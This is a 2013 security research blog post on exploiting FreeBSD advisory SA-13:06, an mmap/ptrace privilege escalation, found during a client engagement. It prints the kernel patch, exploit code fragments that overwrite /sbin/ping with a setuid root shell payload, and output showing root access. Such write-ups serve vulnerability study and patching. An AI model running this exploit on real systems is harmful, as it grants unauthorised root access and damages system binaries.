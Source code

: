 +++
title = "I feel lucky - or why I wrote a FreeBSD 1-day in one day"
author = "hugsy"
date = 2013-06-20T00:00:00Z
updated = 2013-06-20T00:00:00Z

[taxonomies]
categories = ["research"]
tags = ["freebsd", "1day", "lpe"]
+++

Sometimes life gives you eggs for free, you just need to spend some time making an omelet. That's exactly what happened to me on a recent engagement for a client: a typical PHP webapp full of holes left me with a nice stable shell access.

But at that point I was stuck: I had a limited account (`www`) on this FreeBSD 9.1 (almost) up-to-date box, and interestingly  the privilege separation was done correctly enough to prevent me from getting `root` access simply by abusing the usual suspects (weak FS permission, setuid bins, privileged scripts and the likes).

So it was with little hope I decided to take a look at the [recent advisories for FreeBSD](https://www.freebsd.org/security/advisories/) which I really like because they are well maintained. One title struck my eye immediately: [SA-13:06.mmap - Privilege escalation via `mmap`](https://www.freebsd.org/security/advisories/FreeBSD-SA-13:06.mmap.asc), published the day right before!

I decided to look into it at first with not much hope, thinking the exploit would be crazy hard to trigger and heavily deep inside FreeBSD kernel. The description was actually (on purpose?) quite generic

> Due to insufficient permission checks in the virtual memory system, a tracing process (such as a debugger) may be able to modify portions of the traced process's address space to which the traced process itself does not have write access.

But the [patch](http://security.FreeBSD.org/patches/SA-13:06/mmap.patch) gave me a better idea of the issue:

```patch
Index: sys/vm/vm_map.c
===================================================================
--- sys/vm/vm_map.c	(revision 251636)
+++ sys/vm/vm_map.c	(working copy)
@@ -3761,6 +3761,12 @@ RetryLookup:;
         vm_map_unlock_read(map);
         return (KERN_PROTECTION_FAILURE);
     }
+	if ((fault_typea & VM_PROT_COPY) != 0 &&
+	    (entry->max_protection & VM_PROT_WRITE) == 0 &&
+	    (entry->eflags & MAP_ENTRY_COW) == 0) {
+		vm_map_unlock_read(map);
+		return (KERN_PROTECTION_FAILURE);
+	}

     /*
      * If this page is not pageable, we have to get it for all possible
```

It kindda gave a good pointer of where to start: the usual rule for setuid dictates that a write access should immediately imply losing the elevated privilege. But this is where the bug was: by `mmap` a setuid binary (which any user can do), I can then choose to `ptrace` the process, and use `PT_WRITE` command to overwrite the `mmap`-ed memory, effectively overwriting the setuid binary!

<div markdown="span" class="alert-info"><i class="fa fa-info-circle">&nbsp;Note:</i> I was in a rush, so my exploit is partially destructive as I overwrite directly the setuid binary. If you choose to use it, please make a copy to be able to restore it.</div>

My exploit was in 4 parts:

1. `mmap` the target binary (here I chose `/sbin/ping`)

        :::c
        int fd = open("/sbin/ping", O_RDONLY);
        caddr_t addr = mmap(NULL, LEN, PROT_READ, MAP_SHARED, fd, 0);

2. `fork` to passe to be the `mmap`-ed address to a process I can attach to using `ptrace()`

3. in the parent process, I attach to the child process and then prepare a basic payload to substitute the original code with

        :::c
        if (ptrace(PT_ATTACH, pid, 0, 0) < 0)
        {
            perror("[-] ptrace(PT_ATTACH) failed");
            return;
        }
        [...]
        int fd = open("./sc.c", O_WRONLY|O_CREAT,  S_IRUSR | S_IWUSR | S_IRGRP | S_IWGRP | S_IROTH);
        write(fd,
            "#include <stdio.h>\n"\
            "main(){ "\
            "char* s[]={\"/bin/sh\",NULL};"\
            "setuid(0);execve(s[0],s,0); }\n",
            84);
        close(fd);
        system("gcc -o ./sc ./sc.c");

4. all done, we could now copy our payload 1 DWORD at a time using `ptrace(PT_WRITE_D)`

        :::c
        fd = open("./sc", O_RDONLY);
        while (1) {
            int a;
            int n = read(fd, &a, sizeof(int));
            if (n <= 0) break;
            ptrace(PT_WRITE_D, pid, mmap_setuid_address+i, a);
            i+=n;
        }


Done! Simply execute the target binary to get a root shell.

```bash
 $ id
 uid=1001(user) gid=1001(user) groups=1001(user)
 $ gcc -Wall ./mmap.c && ./a.out
 [+] Saved old '/sbin/ping'
 [+] Using mmap-ed area at 0x281a4000
 [+] Attached to 3404
 [+] Copied 4917 bytes of payload to '/sbin/ping'
 [+] Triggering payload
 $ id
 uid=0(root) gid=0(wheel) egid=1001(user) groups=1001(user),0(wheel)
```

By nature, this exploit is very stable and I was able to report that I had `root` access to my customer :)
I was undeniably lucky to find exactly the privilege escalation I need just exactly when I needed it (kudos to Konstantin Belousov & Alan Cox for the finding), but it also taught me that there can be a huge difference of postponing applying patches, even if for one day...

Cheers mates!

PS: for the full [quick'n dirty exploit](https://gist.github.com/hugsy/5933831)
